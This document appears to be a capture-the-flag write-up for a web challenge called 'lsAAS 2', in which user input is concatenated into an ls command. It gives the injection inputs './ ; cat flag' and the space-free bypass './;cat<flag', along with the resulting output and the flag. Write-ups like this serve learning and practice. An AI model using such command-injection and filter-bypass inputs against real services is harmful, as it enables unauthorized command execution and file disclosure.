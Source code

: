 # lsAAS 2

## Write-Up

When we acess to the website, we can see that it asks us for the name of the folder to list the content using `ls`. When we give it the currect directory ( `./` ), it give us the result with the currect directory content where it lists `flag` it it.

So, we can deduce that it acually concatenate our input with ls command and execute it. So we can give it the following input :

```
./ ; cat flag
```

But unfortunatly, this doesn't work : 

```
That's not allowed 
```

But after multiple tries, we can see that it is acually sensitive to the space. So, we might need a command that doesn't contain a space and give same result as previsous one :

```
./;cat<flag
```

here is the output :

```
app.ini app.py flag requirements.txt templates wsgi.py
shellmates{Y0u_M4d3_UR_W4Y_THR0U9Gh_my_L5_AG4IN_AGHHH} 
```

## Flag

shellmates{Y0u_M4d3_UR_W4Y_THR0U9Gh_my_L5_AG4IN_AGHHH}